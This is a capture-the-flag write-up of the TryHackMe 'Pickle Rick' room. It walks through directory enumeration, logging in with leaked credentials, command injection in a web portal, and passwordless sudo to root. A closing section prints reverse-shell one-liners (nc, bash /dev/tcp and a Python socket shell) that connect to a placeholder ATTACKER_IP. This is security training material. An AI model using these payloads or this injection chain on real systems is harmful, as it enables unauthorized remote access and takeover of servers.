# [Pickle Rick — TryHackMe](https://tryhackme.com/room/picklerick)

**Difficulty:** Easy

**Category:** Web exploitation, Command Injection, Privilege Escalation

## Overview

Pickle Rick is a Rick and Morty-themed challenge where the objective is to exploit a web server and retrieve three ingredients to help Rick turn back into a human.

---

## 1. Enumeration

As the scope was already defined, which is to attack the web server to find 3 ingredients, I didn't run `nmap` and went directly to the website. And there I got something interesting.



I didn't find any passwords, but at least I had a username we could use to maybe brute-force a login page or something.

After exploring the page, there was nothing left that was interesting. Just the commented username, and the page itself. So I ran `gobuster` with the `common.txt` wordlist from `SecLists` to see any hidden pages.

```bash
gobuster dir -u <target> -w /path/to/SecLists/Discovery/Web-Content/common.txt -x js,php,html,txt,xml,bak -rt 100
```

Useful output produced:

```bash
/denied.php
/index.html
/login.php
/portal.php
/robots.txt
```

*Full output in [initial_dir_enum.txt](./evidence/command_outputs/initial_dir_enum.txt)*

Two things stood out:

- `/login.php`
- `/robots.txt`

While `denied.php` and `portal.php` both redirected to `login.php`. Upon visiting `login.php`, the form asked for a username and a password. I had a username but I didn't have any password yet.

## 2. Initial Access

I got back to the other page `/robots.txt`, as normally this page should be disabled or I shouldn't be able to access it. I visited it and there was nothing but one string of text.



There was no sign about what it is, or what it is tied to. However, I thought it might be a password, so I copied it and went back to `/login.php` and used it along with the commented username. Eventually I got redirected to `portal.php`, which was a page with an input box named `command` and a button named `execute`. So there was nothing more logical than trying to inject a command like `whoami` and see the response, which was positive, as it returned with `www-data`.



## 3. Command Injection

Now we know that this is a command injection point, let's list the content of the current directory `/var/www/html`. Using:

```bash
ls -la
```



Exactly 2 files which are interesting:

- Sup3S3cretPickl3Ingred.txt
- clue.txt

Reading the first file with:

```bash
cat Sup3S3cretPickl3Ingred.txt
```

It failed, rendering the following:



So apparently the cat command has been disabled, so how would we read files without using `cat`?

Well, there are multiple ways. One of them is using the command `strings`. So I tried reading the file again using `strings` and we got the first ingredient.



I read the `clue.txt`, it wasn't that useful as it literally said `Look around the file system for the other ingredient.` like it ain't the obvious thing to do!



Normally, I checked the `/home` directory to know how many users are there.



There's a `/rick` directory, so I investigated it and it exposed the second ingredient.



I read the second ingredient file using `strings` too:

```bash
strings 'second ingredients'
```

We successfully got the second ingredient



## 4. Privilege Escalation

I tried to check the privileges of the `www-data` by executing:

```bash
sudo -l
```



The `www-data` user can execute any command as any user via sudo without authentication. This effectively allows immediate privilege escalation to root. So I inspected the `/root` directory using:

```bash
sudo ls -la /root
```



We found the third ingredient, so as always, I read it using `strings` to retrieve it.



## 5. Reverse Shell

We successfully retrieved all the ingredients and finished the challenge but I wanted to go a little bit further to obtain a reverse shell. I first started testing with `nc`. I started a listener on my machine and passed the following command to the application:

```bash
nc <ATTACKER_IP> <PORT>
```

It connected successfully and opened a simple TCP connection echoing what I type in my machine to the page body.

I tried a simple Bash reverse shell:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

But it failed because `/dev/tcp` redirection was not supported by the target's Bash environment. I therefore switched to a Python-based reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

I started another listener, and passed the payload to the application and executed it. I was then able to successfully obtain a reverse shell.



As the user already has sudo privileges to run any command as root without a password, there was no need to continue looking for another way to escalate privileges.

## Attack Chain

```text
Enumeration
↓
Credential Discovery
↓
Web Login
↓
Command Injection
↓
File Enumeration
↓
Privilege Escalation
↓
Root
↓
Reverse Shell
```

## Flags

Flags obtained during the challenge have been redacted from this write-up.

> TryHackMe flags and sensitive challenge credentials are intentionally omitted.